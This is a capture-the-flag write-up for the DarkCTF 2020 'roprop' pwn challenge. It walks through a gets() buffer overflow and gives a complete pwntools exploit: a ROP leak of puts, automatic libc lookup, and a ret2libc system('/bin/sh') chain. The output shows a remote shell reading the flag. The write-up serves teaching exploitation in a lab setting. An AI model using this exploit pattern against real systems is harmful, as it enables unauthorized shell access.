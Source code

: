 # DarkCTF 2020

## pwn/roprop

> 171 solves / 313 points
>
> Author: gr4n173
>
> This is from the back Solar Designer times where you require rope to climb and get anything you want.
>
> `nc pwn.darkarmy.xyz 5002`
> 
> [roprop](roprop)

Tags: _pwn_ _x86-64_ _remote-shell_ _rop_ _bof_


## Summary

`gets`.

> This is virtually the same as [_return-to-what_](https://github.com/datajerk/ctf-write-ups/tree/master/downunderctf2020/return_to_what).


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No shellcode, but that's about it.


### Decompile with Ghidra


```c
undefined8 main(void)
{
  char local_58 [80];
  
  nvm_init();
  nvm_timeout();
  puts("Welcome to the Solar Designer World.\n");
  puts("He have got something for you since late 19\'s.\n");
  gets(local_58);
  return 0;
}
```

`gets` vulnerability.  Easy ROP since no canary or PIE.  To get to the return address send `0x58` bytes (gotta love how Ghidra tells you that, i.e. `local_58`).


## Exploit

### Setup

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./roprop')
context.log_level = 'INFO'

if not args.REMOTE:
    context.log_file = 'local.log'
    libc = binary.libc
    p = process(binary.path)
else:
    context.log_file = 'remote.log'
    p = remote('roprop.darkarmy.xyz', 5002)
```

Boilerplate pwntools.  `context.binary` is important for ROP.  Also notice there's no `libc` set for `REMOTE` since we have to find it first.


### Leak libc

```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = 0x58 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got.puts)
payload += p64(binary.plt.puts)
payload += p64(binary.sym.main)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)

_ = p.recv(6)
puts = u64(_ + b'\0\0')
log.info('puts: ' + hex(puts))
```

Standard `puts` _putting_ itself out there.  With the `puts` location known we can find the version and base address of libc.  The last part of the payload jumps back to `main` for a second and final pass.


### Find libc

```python
if not 'libc' in locals():
    try:
        import requests
        r = requests.post('https://libc.rip/api/find', json = {'symbols':{'puts':hex(puts)[-3:]}})
        libc_url = r.json()[0]['download_url']
        libc_file = libc_url.split('/')[-1:][0]
        if not os.path.exists(libc_file):
            log.info('getting: ' + libc_url)
            r = requests.get(libc_url, allow_redirects=True)
            open(libc_file,'wb').write(r.content)
    except:
        log.critical('get libc yourself!')
        sys.exit(0)
    libc = ELF(libc_file)

libc.address = puts - libc.sym.puts
log.info('libc.address: ' + hex(libc.address))
```

> Something new I'm experimenting with.

The `if` block will detect and download the correct libc. `libc_url = r.json()[0]['download_url']` needs to be changed if the downloaded libc does not work, just increment the `[0]` until you get the right one.


### Get a shell, get the flag

```python
payload  = 0x58 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

p.sendlineafter('He have got something for you since late 19\'s.\n\n',payload)
p.interactive()
```

Pop a shell, get the flag.

> `p64(pop_rdi + 1)` fixes a stack [alignment issue](https://blog.binpang.me/2019/07/12/stack-alignment/), see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) for a lengthy example.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/darkctf2020/roprop/roprop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to roprop.darkarmy.xyz on port 5002: Done
[*] Loaded 14 cached gadgets for './roprop'
[*] puts: 0x7f17891cda30
[*] getting: https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so
[*] '/pwd/datajerk/darkctf2020/roprop/libc6_2.27-3ubuntu1.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] libc.address: 0x7f178914d000
[*] Switching to interactive mode
$ ls -l
total 36
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 bin
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 dev
-rwxr----- 1 0 1000   29 Sep 19 11:19 flag.txt
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib32
drwxr-x--- 1 0 1000 4096 Sep 25 02:12 lib64
-rwxr-x--- 1 0 1000 8872 Sep 21 17:50 roprop
$ cat flag.txt
darkCTF{y0u_r0p_r0p_4nd_w0n}
```
